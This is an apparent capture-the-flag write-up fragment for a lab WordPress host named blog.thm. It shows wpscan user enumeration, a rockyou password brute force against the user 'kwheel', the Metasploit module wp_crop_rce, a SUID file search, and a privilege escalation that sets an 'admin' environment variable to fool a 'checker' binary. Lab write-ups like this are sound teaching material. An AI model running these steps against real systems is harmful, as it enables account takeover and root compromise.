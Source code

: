 **wpscan — url blog.thm — enumerate u**
**wpscan — url blog.thm -P /usr/share/wordlists/rockyou.txt -U “kwheel”**
exploit/multi/http/wp_crop_rce
find / -perm -4000 2>/dev/null
this is the ltrace output:-

  

getenv("admin") = nil  
puts("Not an Admin"  
    Not an Admin  
  ) = 13  
  ++ + exited(status 0) ++ +  

  

What this "checker" is doing is calling a getenv() on "admin" variable and returning its value i.e. "nil", because the "admin" environment  variable does not exist, so on running "checker" it's giving the output "Not an admin"  

  

We can give admin variable any value to exploit the vulnerability of "checker" and get root privileges.


export admin=hello